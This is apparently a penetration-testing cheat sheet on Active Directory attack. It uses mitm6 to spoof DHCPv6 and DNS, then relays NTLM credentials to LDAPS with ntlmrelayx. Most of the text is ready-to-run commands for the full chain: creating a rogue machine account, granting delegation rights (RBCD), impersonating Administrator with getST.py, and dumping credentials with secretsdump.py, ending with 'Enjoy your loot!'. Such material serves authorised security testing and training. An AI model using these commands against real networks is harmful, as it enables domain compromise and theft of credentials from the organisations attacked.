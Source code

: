 ### Essentially, we become Man-in-the-Middle using IPv6

## Tools: mitm6, ntlmrelayx

# DNS Poisoning - Relay delegation with mitm6

## Tool: https://github.com/dirkjanm/mitm6

## Requirements

#### 1) IPv6 enabled (Windows prefers IPV6 over IPv4)

#### 2) LDAP over TLS (LDAPS)

(Python tool) Spoof DHCPv6 responses to provide evil DNS config. Usefull to combine with NTLM or Kerberos Relay attacks. Here for an NTLM relay:

    mitm6 -i interface_to_use -d domain.local -hw target.domain.local -v

Here for a Kerberos relay to ADCS:

    mitm6 -i interface_to_use -d domain.local -hw target.domain.local --relay CA.domain.local -v


### ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

## Steps

    mitm6 -hw ws02 -d lab.local --ignore-nofqnd

    ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad

    ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer

### Now granting delegation rights and then do a RBCD

    ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad

    getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator

    export KRB5CCNAME=administrator.ccache

    secretsdump.py -k -no-pass target.lab.local


## Steps: 

#### 1) 

    sudo mitm6 -d DOMAIN

#### 2) 

    ntlmrelayx.py -6 -t ldaps://DC_IP -wh FAKE.DOMAIN -l FOLDER (Run this first!)

#### 3) Enjoy your loot! (Enumerates EVERYTHING that tries to authenticate against the target)

